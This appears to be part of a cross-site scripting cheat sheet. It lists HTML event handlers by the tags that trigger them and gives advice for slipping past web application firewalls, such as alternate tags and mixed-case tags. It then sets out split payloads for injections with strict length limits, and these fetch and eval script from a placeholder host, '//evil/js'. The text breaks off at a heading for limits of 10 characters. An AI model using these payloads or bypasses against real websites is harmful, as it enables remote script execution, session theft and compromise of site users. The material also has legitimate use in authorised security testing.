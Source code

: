 event	supported HTML tags
onload	body, frame, frameset, iframe, img, input type=”image”, link, script, style
onchange	input type=”checkbox”, input type=”file”, input type=”password”, input type=”radio”, input type=”range”, input type=”search”, input type=”text”, select, textarea
onkeyup	all except base, bdo, br, head, html, iframe, meta, param, script, style, title
onmouseover	—“—
onblur	—“—
onfocus	—“—
onclick	—“—
onmouseover	—“—
onmouseout	—“—
oncontextmenu	all, but it can only be triggered if the element has a non-zero size on the page, and is not covered by other elements
onwheel	—“—
ondrag	—“—
ondrop	—“—
oncopy	—“—
oncut	—“—
onpaste	—“—
onscroll	address, blockquote, body, caption, center, dd, dir, div, dl, dt, fieldset, form, h1—h6, html, li, menu, object, ol, p, pre, select, tbody, textarea, tfoot, thead, ul
oninvalid	input
oninput	input type=”password”, input type=”search”, input type=”text”, textarea
onsearch	input type=”search”
onselect	input type=”file”, input type=”password”, input type=”text”, textarea
onreset	form
onsubmit	form
NOTE

Some WAFs block only some html tags (e.g. <script>), but not other tags, so don’t give up after trying a few that got rejected.
Some WAFs do a poor job and fail to block HTML tags or attributes when they are capitalized (or mixed case). Give that a try.
Many event handlers require user action. See more at https://www.w3schools.com/TAGS/ev_event.asp
Dealing with limited space
The below usecases are for character limit that doesn’t allow the full payload in a single injection. Each line is a separate payload that requires wrapping to put it in a JS context (e.g. <script>payload</script>).

Usecase: character limit is >= 20 (not including wrapping)
Payloads order on the page doesn’t matter.
T=(o,f)=>o.then(f)
X=eval
Y='//evil/js'
Z=r=>T(r.text(),X)
J=_=>T(fetch(Y),Z)
setTimeout(_=>J(),9)
Usecase: character limit is >= 13 (not including wrapping)
Payloads order on page does matter.
p=Promise
P=p.prototype
t=P.then
tc=t.call
T=tc.bind(t)
r=Response
R=r.prototype
z=R.text
zc=z.call
Z=zc.bind(z)
E=eval
j='//evil/js'
J=fetch(j)
T(T(J,Z),E)
Usecase: character limit is >= 10